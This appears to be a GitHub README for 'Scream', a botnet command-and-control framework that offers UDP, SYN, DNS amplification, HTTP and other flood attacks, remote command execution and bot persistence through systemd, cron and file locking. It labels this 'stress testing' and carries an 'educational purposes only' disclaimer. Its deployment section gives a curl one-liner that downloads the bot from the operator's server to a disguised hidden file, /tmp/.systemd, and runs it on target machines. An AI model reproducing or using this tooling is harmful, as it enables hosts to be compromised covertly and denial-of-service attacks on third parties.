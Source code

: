 # Scream C2 Framework - README

## Overview
Scream is a lightweight Command and Control (C2) framework with integrated stress testing capabilities. This framework provides a web-based interface for managing a botnet and launching various types of network stress tests.

<table>
  <tr>
    <td><img src="https://github.com/user-attachments/assets/736a91e2-4c10-439e-9bf7-128ec9ee7841" width="100%"/></td>
    <td><img src="https://github.com/user-attachments/assets/122e26d1-1b6c-4065-acb3-7af89746fb6a" width="100%"/></td>
  </tr>
  <tr>
    <td><img src="https://github.com/user-attachments/assets/948fb62d-5861-4963-8c15-ee110c31e21d" width="100%"/></td>
    <td><img src="https://github.com/user-attachments/assets/42758c97-a105-4798-a82a-a3229643f98e" width="100%"/></td>
  </tr>
</table>

## Features

### Web-based Management Interface
- Real-time bot monitoring  
- Attack control panel  
- User management system  
- Attack history tracking  

### Stress Testing Capabilities
- UDP Flood  
- TCP Flood  
- SYN Flood  
- ACK Flood  
- GRE Flood  
- DNS Amplification  
- HTTP Flood  

### Bot Management
- Automatic bot connection handling  
- Heartbeat monitoring  
- Hardware resource reporting  
- Remote command execution  

### Security Features
- Challenge-response authentication  
- TLS encrypted communications  
- Session management  
- Password complexity enforcement  

---

## Installation

### Prerequisites
- Go 1.18+ installed  
- Basic server with root access  
- Domain name (recommended for SSL)  

### Quick Start

**Clone the repository:**
```bash
git clone https://github.com/yourusername/scream-c2.git
cd scream-c2
```

**Build the server and bot:**
```bash
go build -o server main.go
go build -o bot bot.go
```

**Generate SSL certificates (if needed):**
```bash
./server --gen-cert
```

**Start the server:**
```bash
./server
```

**Deploy the bot to target systems.**

---

## Configuration

### Server Configuration
The server can be configured by modifying the constants in `main.go`:

```go
const (
    USERS_FILE          = "users.json"         // User database file
    BOT_SERVER_IP       = "0.0.0.0"            // Bot connection interface
    BOT_SERVER_PORT     = "7003"               // Bot connection port
    WEB_SERVER_IP       = "0.0.0.0"            // Web interface interface
    WEB_SERVER_PORT     = "443"                // Web interface port
    CERT_FILE           = "server.crt"         // SSL certificate
    KEY_FILE            = "server.key"         // SSL private key
)
```

### Bot Configuration
Modify the C2 address in `bot.go`:

```go
const (
    C2Address = "your.server.ip:7003" // Change to your server's IP/domain
)
```

---

## Usage

### Accessing the Web Interface
Navigate to `https://your-server-ip` in your browser

**Login with the default credentials:**
- **Username:** `root`
- **Password:** *(generated on first run, check console output)*

### Managing Bots
- The dashboard shows all connected bots  
- View bot details by clicking on a bot in the list  
- Monitor bot status (active/inactive) via the status indicator  

### Launching Attacks
- Select an attack method from the dropdown  
- Enter the target IP/hostname  
- Specify the target port  
- Set the duration (in seconds)  
- Click **"Initiate Attack Sequence"**

### User Management
Admin/Owner users can:
- Create new users  
- Delete existing users  
- Modify user access levels  

---

## Security Considerations

⚠️ **Important Security Notes:**
- Change the default root password immediately after first login  
- Use strong, complex passwords for all user accounts  
- Restrict access to the web interface (firewall rules, VPN, etc.)  
- Regularly monitor and audit user activity  
- Keep the server software updated  

---

## Bot Deployment

### Linux Deployment

```bash
# Download and execute
curl http://your-server-ip/bot -o /tmp/.systemd && chmod +x /tmp/.systemd && /tmp/.systemd
```

### Persistence Methods
The bot includes several persistence mechanisms:
- Systemd service  
- Cron job  
- File locking (prevent deletion)  

---

## Troubleshooting

### Common Issues

#### Bots not connecting:
- Verify the C2 address in the bot binary  
- Check firewall rules on the server  
- Ensure the bot server is running on the correct port  

#### Web interface not loading:
- Verify SSL certificates are properly configured  
- Check if the web server is running  
- Ensure port 443 (or your configured port) is open  

#### Attack not working:
- Verify target IP/port is correct  
- Check if bots are properly connected  
- Ensure the attack method is appropriate for the target  

---

## License
This software is provided for educational and research purposes only. The authors are not responsible for any misuse of this tool.
